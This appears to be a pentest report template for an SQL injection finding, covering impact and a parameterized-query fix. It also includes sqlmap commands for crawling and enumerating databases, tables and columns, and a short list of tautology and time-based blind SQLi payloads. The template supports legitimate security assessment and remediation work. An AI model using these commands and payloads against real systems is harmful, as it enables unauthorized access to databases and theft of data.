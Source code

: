 ### SQL Injection

| Vulnerability          | SQL Injection                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|:---------------------- |:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Severity**           | **HIGH**                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| **Affected URL**       | <insert the affected url\(s\)>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| **Tools**              | Burp Suite, [SQLmap](https://github.com/gh1mau/vapt/blob/main/poc/sql_injection.md#sqlmap)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| **Techniques/ Method** | URL Fuzzing, Parameter Tampering                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| **Proof of Concept**   | <insert POC screenshot\(s\)>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| **Payload\(s\)**       | [List of possible payload](https://github.com/gh1mau/vapt/blob/main/poc/sql_injection.md#possible-payloads)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| **Description**        | SQL injection (SQLi) refers to an injection attack wherein an attacker can execute malicious SQL statements that control a web application's database server.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| **Impact**             | An attacker can use SQL injection it to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| **CVE/CWE/OSVDB**      | CWE-89                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| **Recommendation**     | **Use parameterized queries when dealing with SQL queries that contains user input. Parameterized queries allows the database to understand which parts of the SQL query should be considered as user input, therefore solving SQL injection.**<br/><br/>In order for an SQL injection attack to take place, the vulnerable website needs to directly include user input within an SQL statement. An attacker can then insert a payload that will be included as part of the SQL query and run against the database server.<br/>Parameterized queries are simple to write and understand while forcing a developer to define the entire SQL statement before hand, using placeholders for the actual variables within that statement. A developer would then pass in each parameter to the query afer the SQL statement is defined, allowing the database to be able to distinguish between the SQL command and data inputted by a user. If SQL commands are inputted by an attacker, the parameterized query would treat the input as a string as opposed to an SQL command.<br/>Application developers should avoid sanitizing their input by means of escaping or removing special characters (several encoding tricks an attacker could leverage to bypass such protections) and stick to using parameterized queries in order to avoid SQL injection vulnerabilities. |
| References             | [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)<br/>[Bobby Tables: A guide to preventing SQL injection](https://bobby-tables.com/)<br/>[CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |

---

### Tools :

#### SQLmap

Reference: [Usage · sqlmapproject/sqlmap Wiki · GitHub](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

```bash
# crawl and pipe to proxy(burp)
$ sqlmap -u "http://localhost" --forms --batch --crawl=10 --level=5 --risk=3
$ sqlmap -r myapps --proxy=http://127.0.0.1:8080 --random-agent --level=5 --risk=3

# time based , mysql dbms
$ sqlmap -r myapps --random-agent --level=5 --risk=3 --dbms=mysql --technique=T

# enumeration(list out databases):
$ sqlmap -r myapps --random-agent --level=5 --risk=3 --dbs

# enumeration(list out tables from sample_db):
sqlmap -r myapps --random-agent --level=5 --risk=3 -D sample_db --tables

# enumeration(list out columns from sample_table from sample_db):
sqlmap -r myapps --random-agent --level=5 --risk=3 -D sample_db -T sample_table --columns


```

---

### Possible Payloads

```sql
-1' OR 3*2*1=6 AND 000666=000666 --

# time-based blind
5555' AND (SELECT 3841 FROM (SELECT(SLEEP(5)))BQTt)-- 

OfoO'||(SELECT 0x77416d57 FROM DUAL WHERE 7899=7899 AND (SELECT 1651 FROM (SELECT(SLEEP(5)))yxfO))
```
